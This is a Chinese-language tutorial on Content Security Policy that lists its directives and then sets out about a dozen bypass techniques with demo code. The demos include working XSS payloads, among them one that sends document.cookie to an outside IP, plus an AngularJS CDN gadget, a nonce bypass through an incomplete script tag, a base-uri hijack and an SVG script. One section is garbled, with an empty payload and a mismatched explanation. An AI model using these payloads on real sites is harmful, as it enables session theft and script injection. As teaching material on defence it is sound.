XSS是最常见、危害最大的网页安全漏洞，想要抵御它们，要采取非常多编程措施，非常麻烦。那么，有没有可以从根本上解决问题，浏览器自动禁止外部注入恶意脚本的方法呢？CSP应运而生。

## 什么是CSP

CSP（Content Security Policy，内容安全策略），是网页应用中常见的一种安全保护机制，它实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，哪些不可以。

## CSP策略组成

```
<指令范围> <内容源> 
```

### 指令范围

```
script-src：外部脚本
style-src：样式表
img-src：图像
media-src：媒体文件（音频和视频）
font-src：字体文件
object-src：插件（比如 Flash）
child-src：框架
frame-ancestors：嵌入的外部资源（比如<frame>、<iframe>、<embed>和<applet>）
connect-src：HTTP 连接（通过 XHR、WebSockets、EventSource等）
worker-src：worker脚本
manifest-src：manifest 文件
dedault-src：默认配置
frame-ancestors：限制嵌入框架的网页
base-uri：限制<base#href>
form-action：限制<form#action>
block-all-mixed-content：HTTPS 网页不得加载 HTTP 资源（浏览器已经默认开启）
upgrade-insecure-requests：自动将网页上所有加载外部资源的 HTTP 链接换成 HTTPS 协议
plugin-types：限制可以使用的插件格式
sandbox：浏览器行为的限制，比如不能有弹出窗口等。
```

### 内容源

内容源主要由[源列表] [关键字] [数据]组成

```
关键字(需要用单引号包裹)
	'none'
		代表空集；即不匹配任何 URL
	'self'
		代表和文档同源，包括相同的 URL 协议和端口号
	'unsafe-inline'
		允许使用内联资源，如内联的<script>元素、javascript: URL、内联的事件处理函数和内联的<style>元素
	'unsafe-eval'
		允许使用 eval() 等通过字符串创建代码的方法
	*
		星号表示允许任何URL资源，没有限制
源列表
	http://*.foo.com （匹配所有使用 http协议加载 foo.com 任何子域名的尝试。）
	mail.foo.com:443 （匹配所有访问 mail.foo.com 的 443 端口 的尝试。）
	https://store.foo.com （匹配所有使用 https协议访问 store.foo.com 的尝试。）
	......    
数据
	data:
		仅允许数据模式（如Base64编码的图片）方式加载资源
	mediastream:
		允许mediastream: URI作为内容来源
```

### 实现demo

```html
通过响应头实现：
Content-Security-policy: default-src 'self'; script-src 'self';<!--关键字作为内容源-->
Content-Security-policy: default-src 'self'; script-src allowed.com;<!--源列表作为内容源-->
Content-Security-Policy: default-src 'self'; img-src 'self' data:; media-src mediastream: <!--数据作为内容源-->
通过html元标签实现：
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
```

## 绕过方法

本文未说明代码的例子由下面demo代码改造

```php
<?php
    if (!isset($_COOKIE['session'])) {
        setcookie('session',md5(rand(0,1000)));
    }
        header("Content-Security-Policy: script-src 'unsafe-inline';");
?>
<!DOCTYPE html>
<html>
<head>
    <title>CSP Test</title>
</head>
<body>
<h2>CSP-safe</h2>
<?php
    if (isset($_POST['a'])) {
        echo "Your POST content".@$_POST['a'];
    }
?>
```

### 0x01 重定向绕过

**条件**

1.可以执行任意js脚本，但由于CSP无法数据外带

2.CSP为`script-src 'unsafe-inline'`

**绕过方法**

```html
a=<script>location.href="http://10.146.110.37:7777?"+document.cookie</script>
<!--也可用window.location/window.open()跳转方法外带数据-->
```



### 0x02 meta网页跳转绕过

**绕过条件**

无

**绕过方法（只能跳转，无法携带数据）**

```html
a=<meta http-equiv="refresh" content="1;url=http://10.146.110.37:7777">  
```

效果图



### 0x03 iframe标签绕过

**条件**

1.一个同源站点存在两个页面，其中一个有CSP保护，一个没有且存在xss漏洞

2.我们要的数据在存在CSP保护的页面中

**绕过方法**

B页面利用iframe加载A页面，绕过A页面CSP策略。

```html
<!--A.html-->
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">

<h1 id="flag">flag{0xffff}</h1>
```

```html
<!--B.html--><body><script>var iframe = document.createElement('iframe');iframe.src="http://localhost/CSP/demo3/A.html";document.body.appendChild(iframe);setTimeout(()=>alert(iframe.contentWindow.document.getElementById('flag').innerHTML),1000);//setTimeout是为了等待iframe加载完成</script></body>
```



**其他利用方法**

在Chrome下，iframe标签支持csp属性，这有时候可以用来绕过一些防御，例如"http\://xxx"页面有个js库会过滤XSS向量，我们就可以使用csp属性来禁掉这个js库：` < iframe csp="script-src 'unsafe-inline'" src="http://xxx"></iframe> `

### 0x04 CDN绕过	

一般来说，前端要用到许多的前端框架和库，而部分企业为了效率或者其他原因，会选择使用其他CDN上的js框架，当这些CDN上存在一些低版本的框架时，就可能存在绕过CSP的风险

**利用条件**

1.该CDN服务商在CSP白名单中

2.CDN服务商存在低版本的js库

**demo**

csp设置

```html
content-security-policy: script-src 'self' vimeo.com 'unsafe-eval' https://cdnjs.cloudflare.com 
```

绕过方法

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js></script><div ng-app> 
    {{constructor.constructor('alert(document.cookie)')()}}
```



这里的绕过方法详细说明可以参考链接

https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf

https://github.com/google/security-research-pocs/tree/master/script-gadgets

### 0x05 不完整script标签绕过

**条件**

1.可控点在合法script标签上方,且其中没有其他标签

2.XSS页面的CSP `script-src`只采用了`nonce`方式

**demo**

csp设置

```php+HTML
<?php header("X-XSS-Protection:0");?>
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'nonce-xxxxx'"><?php echo $_GET['a']?>
<script nonce='xxxxx'>  //do some thing</script>
```

利用方法

```html
http://127.0.0.1/1.php?a=<script src=data:text/plain,alert(1)
```

我们可以发现<script就会被变成一个属性，值为空，之后的`nonce='xxxxx'`会被当成我们输入的script标签中的一个属性，成功绕过`script-src`，`</script`就会被变成一个属性，值为空

火狐浏览器



上述绕过方法在chrome浏览器不生效，因为在chrome中，虽然第二个<script 被当成了属性名，但依旧会干扰chrome对标签的解析，造成错误，使我们的exp无法成功执行。这里可以用到标签的一个技巧，当一个标签存在两个同名属性时，第二个属性的属性名及其属性值都会被浏览器忽略。

例如`<h1 a="123" b="456" a="789" a="abc">123</h1>`，这里a属性的值为123，所以就可以通过如下pyaload绕过

```html
http://127.0.0.1/1.php?a=123<script src="data:text/plain,alert(1)" a=123 a= 
```


先新建一个a属性，然后再新建第二个a属性，这样我们就将第二个<script赋给了第二个a属性

chrome浏览器



这里查看页面标签已经嵌入成功，但src却执行不了就很奇怪



### 0x06 不完整的资源标签获取资源

**条件**

1.可以加载外域资源 (`img-src: *`)

2.需要获取页面某处的信息

**demo**

```php+HTML
<meta http-equiv="Content-Security-Policy" content="default-src 'self';script-src 'self'; img-src *;">
<?php echo $_GET['xss']?>
<h1>flag{0xffff}</h1>
<h2 id="id">3</h2>
```

利用方法

```html
http://127.0.0.1/csp.php?xss=
```

利用方法

```html
<script src="https://www.google-analytics.com/gtm/js?id=GTM-PJF5W64"></script>
```

案例中CSP设置了`unsafe-eval`白名单为`www.google-analytics.com` ，而`www.google.analytics.com`中提供了自定义javascript的功能（google会封装自定义的js，所以还需要`unsafe-eval`），于是可以绕过CSP

### 0x08 302跳转绕过

**条件**

1.在script-src允许的域下有需要获取的信息

2.在script-src允许的域下存在任意重定向

**demo**

a目录

```php+HTML
<!-- csp.php -->
<?php header("Content-Security-Policy: default-src 'self';script-src http://127.0.0.1/a/");?> 
<html> <head> </head> <body>     csp header test  </body> </html>
```

```php+HTML
<!-- redirect.php -->
<?php header("Location: " . $_GET[url]);?>
```

b目录

```php+HTML
<!-- test.php -->
<html><body><script>alert(123)</script></body></html>	
```

**利用方法**

```
http://127.0.0.1/a/redirect.php?url=/b/test.php
```

csp限制了`/a/`目录，而我们的目标脚本在`/b/`目录下则如果这时候请求redirect页面去访问`/b/`下的脚本是可以通过csp的检查的



### 0x09 Base-uri绕过

**条件**

1. `script-src`只使用`nonce`
2. 没有额外设置base-uri
3. 页面引用存在相对路径的`<script>`标签

**demo**

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'nonce-test'">
<base href="//10.146.110.37/">
<script nonce='test' src="1.js"></script>
```



如果未设置nonce将无法绕过



### 0x10 SVG绕过

**条件**

1.可以上传svg图片

**利用方法**

```xml-dtd
<?xml version="1.0" encoding="UTF-8" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" width="100px" height="100px" viewBox="0 0 751 751" enable-background="new 0 0 751 751" xml:space="preserve">  <image id="image0" width="751" height="751" x="0" y="0"    href="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAu8AAALvCAIAAABa4bwGAAAAIGNIUk0AAHomAACAhAAA+gAAAIDo" />
<script>alert(1)</script></svg>
```

### 0x11 CRLF绕过

当页面存在CRLF漏洞时，且返回的CSP头在我们可控点的下方，则可通过回车换行注入CSP返回头绕过。该绕过方法较简单，这里就举例了

### 0x12 object-src绕过（PDFXSS）

在CSP标准里面，有一个属性是`object-src`，它限制的是`<embed>` `<object>` `<applet>`标签的src，也就是插件的src
于是我们可以通过插件来执行Javascript代码，插件的js代码并不受`script-src`的约束

**利用条件**

1. 没有设置`object-src`，或者`object-src`没有设置为`'none'`
2. pdf用的是chrome的默认解析器

**demo**

```php+HTML
<meta http-equiv="Content-Security-Policy" content="script-src 'self'"><?php echo $_GET['xss']?>
```

**绕过方法**

构造pdf的XSS放在vps上



然后在XSS处写入embed标签且src为pdf连接

```html
<embed width="100%" height="100%" src="//vps_ip/123.pdf"></embed>
```



但是PDF的XSS并不是为所欲为，比如pdf-xss并不能获取页面cookie，但是可以弹窗，url跳转等

具体能执行哪些恶意js可以参考这篇[文章](https://blog.csdn.net/microzone/article/details/52850623)

## 参考链接

[CSP浅析与绕过](https://mp.weixin.qq.com/s/RgIQi5rQA7EO3iDFEQbVCA)

[我的CSP绕过思路及总结](https://xz.aliyun.com/t/5084)

[CSP策略及绕过方法](https://www.jianshu.com/p/f1de775bc43e)

[CSP开发者手册--腾讯云](https://cloud.tencent.com/developer/chapter/13541)

[前端防御从入门到弃坑--CSP变迁](https://paper.seebug.org/423)
